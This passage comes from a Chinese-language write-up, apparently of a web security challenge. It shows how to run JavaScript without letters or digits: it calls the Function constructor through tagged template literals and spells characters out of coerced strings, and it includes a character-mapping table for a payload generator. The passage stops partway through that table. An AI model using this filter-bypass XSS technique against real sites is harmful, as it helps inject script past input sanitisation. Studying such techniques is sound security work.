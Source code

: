 ``` js
[]['constructor']['constructor']`${'alert(1)'}``｀
```

但這樣的話如果你丟去執行，會發現有錯。因為根據我們上面所說的，這樣寫的話傳去 function constructor 的參數會是：`[""], 'alert(1)'`，第一個參數是一個含有空字串的陣列。

而 function constructor 除了最後一個參數之外，其他都會被當作要動態新增的函式的參數，例如說 `Function('a', 'b', 'return a+b')` 就是：

``` js
function (a, b) {
  return a+b
}
```

所以第一個參數給空字串是行不通的，加一個變數就行了，例如說題目允許的 e 或者是 _：

``` js
[]['constructor']['constructor']`_${'alert(1)'}``｀

// 產生出的函式
function anonymous(_,) {
  alert(1)
}
```

這樣就能順利執行程式碼了，因此最後剩下的就只有拼出 `constructor` 跟 `alert(document.domain)` 了

## 字串拼拼樂

除了我開頭提到的文章：[如何不用英文字母與數字寫出 console.log(1)？](https://blog.huli.tw/2020/12/01/write-conosle-log-1-without-alphanumeric/)之外，[jsfuck](https://github.com/aemkei/jsfuck/blob/master/jsfuck.js) 的程式碼也有很多可以參考的地方。

底下是我用的幾個：

``` js
1. `${``+{}}` => "[object Object]"
2. `${``[0]}` => "undefined"
3. `${e}` => "[object HTMLProgressElement]"
4. `${0/0}` => "NaN"
```

我們可以從上面這些組合中，找到所有需要的字元。接下來只差最後兩個了，就是 `()`，我們必須也用拼的拼出這兩個字元才行。

這要怎麼拿到呢？在 JS 裡面把 function 變成字串的話，就會是整個 function 的內容，像這樣：

``` js
`${[]['constructor']}`
=> "function Array() { [native code] }"
```

可以透過這樣子拿到這裡面的 `()` 這兩個字元。

結合以上的技巧，我自己寫了一個簡單的小程式去產出最終的結果：

``` js
const mapping = {
  a: '`${0/0}`[1]',
  c: '`${``+{}}`[5]',
  d: '`${``[0]}`[2]',
  e: '`e`',
  i: '`${``[0]}`[5]',
  l: '`${e}`[21]',
  m: '`${e}`[23]',
  n: '`${``[0]}`[1]',
  o: '`${``+{}}`[1]',
  r: '`${e}`[13]',
  s: '`${e}`[18]',
  t: '`${``+{}}`[6]',
  u: '`${``[0]}`[0]',
  ".": '`.`'
```